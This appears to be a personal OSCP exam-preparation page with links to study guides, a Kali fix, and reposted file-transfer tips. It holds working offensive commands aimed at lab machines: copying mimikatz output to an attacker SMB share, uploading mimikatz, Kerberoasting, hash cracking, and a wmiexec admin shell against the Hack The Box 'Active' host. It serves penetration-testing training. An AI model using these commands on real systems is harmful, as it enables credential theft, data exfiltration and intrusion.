 # OSCP

![Untitled](OSCP%20b2cbbe376ade4a73aba8a459a0251a9b/Untitled.png)

[Commands](OSCP%20b2cbbe376ade4a73aba8a459a0251a9b/Commands%20d48daf7ed2cd4fa0a58004e82b4b0b02.md)

[Labs](OSCP%20b2cbbe376ade4a73aba8a459a0251a9b/Labs%20a95100eb1086474abff2761a534c89aa.csv)

[OWASP top 10 - offsec portal](OSCP%20b2cbbe376ade4a73aba8a459a0251a9b/OWASP%20top%2010%20-%20offsec%20portal%20cdfcbbbfb00d42398a925ed6e7ac3d8b.md)

[OSCP Videos Challenge Labs](OSCP%20b2cbbe376ade4a73aba8a459a0251a9b/OSCP%20Videos%20Challenge%20Labs%203306187b1f27408096b6bf169fdf3f00.md)

[Challenge Labs](OSCP%20b2cbbe376ade4a73aba8a459a0251a9b/Challenge%20Labs%20c8b27ab407fd4b57aac5be6620ff1239.md)

[Windows Privilege Escalation](OSCP%20b2cbbe376ade4a73aba8a459a0251a9b/Windows%20Privilege%20Escalation%207b64f1647548473fa660d705e0cc921a.md)

# Kali Error

```markdown
1.ctrl+Alt+F1
2.>sudo nano /etc/X11/Xwrapper.config
#allowed_users=anybody
3.>sudo systemctl restart lightdm
>sudo systemctl restart gdm3
4.>sudo reboot

```

Transfer Files

[https://portal.offsec.com/learning-paths/network-penetration-testing-essentials-pen-100-49568/learning/file-transfers-46870](https://portal.offsec.com/learning-paths/network-penetration-testing-essentials-pen-100-49568/learning/file-transfers-46870)

[https://discord.com/channels/780824470113615893/1148907181480104028](https://discord.com/channels/780824470113615893/1148907181480104028)

oscp 90 days preparation guide 2023

- [http://niiconsulting.com/checkmate/2017/06/a-detail-guide-on-oscp-preparation-from-newbie-to-oscp/](http://niiconsulting.com/checkmate/2017/06/a-detail-guide-on-oscp-preparation-from-newbie-to-oscp/)
    
    [https://johnjhacking.com/blog/the-oscp-preperation-guide-2020/](https://johnjhacking.com/blog/the-oscp-preperation-guide-2020/)
    

AD-

[https://nagendrangs.medium.com/how-i-passed-oscp-with-110-points-in-7-hours-first-attempt-without-metasploit-d6d7f6156444](https://nagendrangs.medium.com/how-i-passed-oscp-with-110-points-in-7-hours-first-attempt-without-metasploit-d6d7f6156444)

[OSCP Reborn - 2023 Exam Preparation Guide](https://johnjhacking.com/blog/oscp-reborn-2023/)

[https://github.com/rkhal101/Hack-the-Box-OSCP-Preparation/blob/master/my-oscp-journey-a-review.md](https://github.com/rkhal101/Hack-the-Box-OSCP-Preparation/blob/master/my-oscp-journey-a-review.md)

[https://gitlab.com/lagarian.smith/oscp-cheat-sheet/-/blob/master/OSCP-exam-report-template_whoisflynn_v3.2.md](https://gitlab.com/lagarian.smith/oscp-cheat-sheet/-/blob/master/OSCP-exam-report-template_whoisflynn_v3.2.md)

https://zer1t0.gitlab.io/posts/attacking_ad/

[https://www.reddit.com/r/oscp/comments/a9e2yv/from_0_to_oscp_in_90days/](https://www.reddit.com/r/oscp/comments/a9e2yv/from_0_to_oscp_in_90days/)

[https://infosecwriteups.com/how-i-passed-oscp-with-100-points-in-12-hours-without-metasploit-in-my-first-attempt-dc8d03366f33](https://infosecwriteups.com/how-i-passed-oscp-with-100-points-in-12-hours-without-metasploit-in-my-first-attempt-dc8d03366f33)

[https://scholarworks.calstate.edu/downloads/pv63g6381](https://scholarworks.calstate.edu/downloads/pv63g6381)

[https://medium.com/@shubhamkhichi5/how-to-practice-and-pass-oscp-from-scratch-a06ef4b5d28a](https://medium.com/@shubhamkhichi5/how-to-practice-and-pass-oscp-from-scratch-a06ef4b5d28a)

[https://www.linkedin.com/pulse/my-journey-from-zero-oscp-2023-krecendo-hui/](https://www.linkedin.com/pulse/my-journey-from-zero-oscp-2023-krecendo-hui/)

[https://www.linkedin.com/posts/arvind-patel-8039ba164_oscp-ethicalhacking-activity-7208264324761427968-jqJQ?utm_source=share&utm_medium=member_desktop](https://www.linkedin.com/posts/arvind-patel-8039ba164_oscp-ethicalhacking-activity-7208264324761427968-jqJQ?utm_source=share&utm_medium=member_desktop)

My journey, from zero to OSCP (2023)
[https://www.linkedin.com/pulse/my-journey-from-zero-oscp-2023-krecendo-hui?utm_source=share&utm_medium=member_android&utm_campaign=share_via](https://www.linkedin.com/pulse/my-journey-from-zero-oscp-2023-krecendo-hui?utm_source=share&utm_medium=member_android&utm_campaign=share_via)

[Goverdhan Kumar on LinkedIn: Roadmap to OSCP 2023](https://www.linkedin.com/posts/goverdhankumar_roadmap-to-oscp-2023-activity-7107230784960249858-qe2s?utm_source=share&utm_medium=member_android)

![](https://miro.medium.com/v2/resize:fit:4800/format:webp/1*lBxx4Qa8SvUU5ZNcfqEtIg.png)

FIle Transfer

```bash
https://portal.offsec.com/learning-paths/network-penetration-testing-essentials-pen-100/books-and-videos/modal/modules/file-transfers
Dear learners,
Since this topic was the most frequently asked questions, we decided to share some tips and tricks about it:
1) SMB: 
On Kali:
```bash
impacket-smbserver test . -smb2support  -username kourosh -password kourosh
```
On Windows:
```powershell
net use m: \\Kali_IP\test /user:kourosh kourosh
copy mimikatz.log m:\
```
2) RDP mounting shared folder:
- Using xfreerdp:
On Kali:
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:
offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-
200
```
On windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
- Using rdesktop:
On Kali: 
```bash
rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200
```
On Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
3) Impacket tools:
psexec and wmiexec are shipped with built in feature for file transfer.
**Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.
Uploading mimikatz.exe to the target machine:
```bash
C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe
```
Downloading mimikatz.log:
```bash
C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log
```
4) Evil-winrm:
- Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```
- Downloading files:
```bash
download mimikatz.log /home/kali/Documents/pen-200
```
5) C2 frameworks:
Almost any of the C2 frameworks such as Metasploit are shipped with downloading and uploading functionality.

6) In FTP, binaries in ASCII mode will make the file not executable. Set the mode to binary.

Additional Resources:
File Transfer:  https://www.youtube.com/watch?v=kd0sZWI6Blc
PEN-100: https://portal.offsec.com/learning-paths/network-penetration-testing-essentials-pen-100/books-and-videos/modal/modules/file-transfers

Happy hacking!
```

### Active Directory

[Active directory pentesting: Cheatsheet and beginner guide](https://www.hackthebox.com/blog/active-directory-penetration-testing-cheatsheet-and-guide)

*FOREST, SAUNA, MONTEVERDE, MULTIMASTER, CASCADE, SIZZLE*

```bash
smbmap -H 10.10.10.100 -u svc_tgs -p GPPstillStandingStrong2k18 -r Users/active.htb
smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.10.10.100/Users

https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2023_02.svg
https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_2022_04.svg
Active AD machine
ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100
ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName
python3 GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100
python3 GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request
john --wordlist=rockyou.txt hash
python3 wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100

#DIrectory
>wfuzz -c -z file,/usr/share/SecLists/Discovery/Web-Content/raft-large-files.txt --hc 404 http://192.168.203.187:80/FUZZ/
```
